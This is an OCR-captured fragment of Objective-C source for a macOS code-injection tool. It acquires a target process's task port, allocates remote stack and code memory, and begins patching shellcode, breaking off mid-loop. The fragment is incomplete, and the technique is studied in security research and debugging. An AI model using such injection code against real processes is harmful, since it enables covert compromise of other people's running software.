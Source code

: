 ```objectivec

// Check if the library exists
int rc = stat (lib, &buf);

if (rc != 0)
{
fprintf (stderr, "Unable to open library file %s (%s) - Cannot inject\n", lib,strerror (errno));
//return (-9);
}

// Get access to the task port of the process we want to inject into
kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
if (kr != KERN_SUCCESS) {
fprintf (stderr, "Unable to call task_for_pid on pid %d: %d. Cannot continue!\n",pid, kr);
return (-1);
}
else{
printf("Gathered privileges over the task port of process: %d\n", pid);
}

// Allocate memory for the stack
mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
mach_vm_address_t remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote stack in thread: Error %s\n", mach_error_string(kr));
return (-2);
}
else
{

fprintf (stderr, "Allocated remote stack @0x%llx\n", remoteStack64);
}

// Allocate memory for the code
remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote code in thread: Error %s\n", mach_error_string(kr));
return (-2);
}


// Patch shellcode

int i = 0;
char *possiblePatchLocation = (injectedCode );
for (i = 0 ; i < 0x100; i++)
{

// Patching is crude, but works.
//
extern void *_pthread_set_self;
possiblePatchLocation++;


```